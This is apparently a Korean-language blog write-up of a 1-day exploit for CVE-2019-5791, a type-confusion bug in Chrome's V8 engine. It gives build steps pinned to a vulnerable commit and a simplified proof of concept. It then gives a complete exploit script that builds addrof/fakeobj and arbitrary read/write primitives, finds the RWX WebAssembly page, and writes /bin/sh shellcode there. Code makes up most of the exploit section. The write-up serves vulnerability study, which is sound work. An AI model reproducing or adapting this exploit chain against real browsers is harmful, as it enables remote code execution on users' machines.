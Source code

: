 ```yaml
---
layout: post
title: CVE-2019-5791 1day exploit
categories: Browser
tags: [v8, 1day]
---
```


## 목차

- 빌드
- POC
- Exploit
- 레퍼런스

---

## 빌드

```bash
git clone https://chromium.googlesource.com/chromium/tools/depot_tools.git
export PATH=`pwd`/depot_tools:"$PATH"
fetch v8 
cd v8 
git checkout b267f94ffca9fb90d04ffa03c910d8508c20dd26
gclient sync
build/install-build-deps.sh
tools/dev/gm.py x64.release
```

---

## POC

- POC 코드

  - https://bugs.chromium.org/p/chromium/issues/detail?id=926651

  - 총 2가지의 POC가 존재한다.

  - 근데 이 POC들은 조금 복잡하게 표현되어 있어서 단순화 시키면 다음과 같다.

    ```jsx
    call = function (code) {
    	try { code(); } catch (e) { console.log(e); }
    }
    
    function run() {
        const f = (v1 = (function() {
    	    var v2 = 0;
    	    var v3 = 0;
            if (asdf) { return; } else { return; }
            (function() { print("not trigger") });
    	    (function() { v3 = 'A'.repeat(5000); v2 = [1, 2, 3, 4, 5, 6] });
    	})()) => 1;
    	f();
    }
    
    let oob = {};
    
    %DebugPrint(oob);      // Object map
    %DebugPrint(run);      // JSFunction
    
    call(() => (run()));
    call(() => (run()));
    
    %DebugPrint(oob);      // JSArray[6] (v2)
    %DebugPrint(run);      // Array map
    
    run[13] = 0x41414141   // oob!!
    print(oob.length)
    ```

- call 함수로 run 함수를 2번 트리거하면 oob 객체는 v2라는 JSArray로, run 함수의 Map이 Array로 바뀌어 있다.

- 이 버그는 js 코드를 파싱하고 AST를 만드는 과정에서 최적화를 하려다 꼬인 경우이다.

- run 함수 내엔 두 가지의 익명 함수가 정의되어 있다.

  - 이 중 첫 번째 익명 함수는 트리거되지 않는다.
  - 두 번째 익명 함수는 run 함수가 2번째 call될 때 호출된다.
    - `v3 = 'A'.repeat(5000);` 가 실행되면 run 함수의 map이 Array map으로 변경되며 type confusion이 발생한다.
    - `v2 = [1, 2, 3, 4, 5, 6]` 가 실행되면 oob 객체가 지금 선언한 v2로 바뀐다.


- run 함수의 map이 Array map으로 바뀌게 되었고 13번째 인덱스 부분을 수정하면 v2로 변한 oob의 length를 바꿀 수 있게되어서 oob가 생긴다.

- oob가 트리거 되는 확률은 높지않다.

  - 힙쪽 oob인데, 여러 쓰레드에서 하나의 힙을 사용하다보니 힙 구성이 그때그때 달라지기 때문이다.

---

## Exploit

- 현 POC에선 oob가 발생하는 배열이 float가 아니어서 oob read가 되지 않는다. 그래서 v2를 float 배열로 바꿔준 후 디버깅을 통해 length offset을 다시 찾아서 0x41414141로 변경해주어야 한다.

- 그리고 obj_arr과 float_arr을 생성해서 `addrof`와 `fakeobj`를 만들어야하는데, 이 배열을 v2 바로 뒤에 생성하는게 oob 배열에서 접근하는 것이 더 편했다.

- 이제 oob 배열을 통해 `obj_arr_map`과 `float_arr_map`을 leak하고 type confusion을 일으켜서 addrof와 fakeobj를 구현하고 aar과 aaw를 만들어서 익스 하면 끝이다.

- rwx의 offset은 버전마다 달라져서 디버깅을 해보니 현 버전에선 `wasm_i_addr+0xf0n` 이었다. (vmmap으로 rwx 영역 확인 후 search -t qword rwx영역 으로 검색)

- 익스코드

  ```jsx
  call = function (code) {
      try { code(); } catch (e) { console.log(e); }
  }
  
  function run() {
      const f = (v1 = (function() {
  	      var v2 = 0;
  	      var v3 = 0;
      	  if (asdf) { return; } else { return; }
      	  (function() { print("not trigger") });
  	      (function() {
  		      v3 = 'A'.repeat(5000);
  		      v2 = [1.1, 1.2, 1.3, 1.4];
  		      obj_arr = [{}].slice();
  		      float_arr = [1.1, 1.2, 1.3, 1.4];
  		  });
      })()) => 1;
      f();
  }
  
  let oob = {};
  
  call(() => (run()));
  call(() => (run()));
  
  run[19] = 0x41414141;
  print('oob.length: ' + hex(oob.length));
  
  var buf = new ArrayBuffer(8); 
  var f64_buf = new Float64Array(buf);
  var u64_buf = new Uint32Array(buf);
  
  function ftoi(val) { 
      f64_buf[0] = val;
      return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); 
  }
  
  function itof(val) { 
      u64_buf[0] = Number(val & 0xffffffffn);
      u64_buf[1] = Number(val >> 32n);
      return f64_buf[0];
  }
  
  function hex(b) {
      return ('0x' + b.toString(16));
  }
  
  if (oob.length == 0x41414141) {
      obj_arr_map = oob[28];
      float_arr_map = oob[38];
  
      print("float_arr_map: " + hex(ftoi(float_arr_map)));
      print("obj_arr_map: " + hex(ftoi(obj_arr_map)));
  
      var arb_rw_arr = [float_arr_map, 0, 1.3, 8];
  
      function addrof(obj) {
  	      obj_arr[0] = obj;
  		  oob[28] = float_arr_map;
  		  let addr = obj_arr[0];
  		  oob[28] = obj_arr_map;
  		  return ftoi(addr);
  	  }
  
  	  function fakeobj(addr) {
  	      float_arr[0] = itof(addr);
  		  oob[38] = obj_arr_map;
  		  let fake = float_arr[0];
  		  oob[38] = float_arr_map;
  
  		  return fake;
  	  }
  
      function aar(addr) {
          let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
          arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);
  
          return ftoi(fake[0]);
      }
  
      function aaw_init(addr, val) {
          fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
          arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);
      	  fake[0] = itof(BigInt(val));
      }
  
  	  var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
  	  var wasm_mod = new WebAssembly.Module(wasm_code);
  	  var wasm_instance = new WebAssembly.Instance(wasm_mod);
  	  var f = wasm_instance.exports.main;
  	  var wasm_i_addr = addrof(wasm_instance);
  	  var rwx = aar((wasm_i_addr)+0xf0n);
  
  	  print('rwx: ' + hex(rwx));
  
  	  var shellcode = [0xbb48f631, 0x6e69622f, 0x68732f2f, 0x5f545356, 0x31583b6a, 0x050fd2];
  	  var shellcode_buf = new ArrayBuffer(0x100);
  	  var dataview = new DataView(shellcode_buf);
  	  aaw_init(addrof(shellcode_buf)+0x20n, rwx);
  
      for (var i=0; i<shellcode.length; i++) {
  	      dataview.setUint32(4*i, shellcode[i], true);
      }
      f();	
  }
  ```

---

## 레퍼런스

-  https://bugs.chromium.org/p/chromium/issues/detail?id=926651
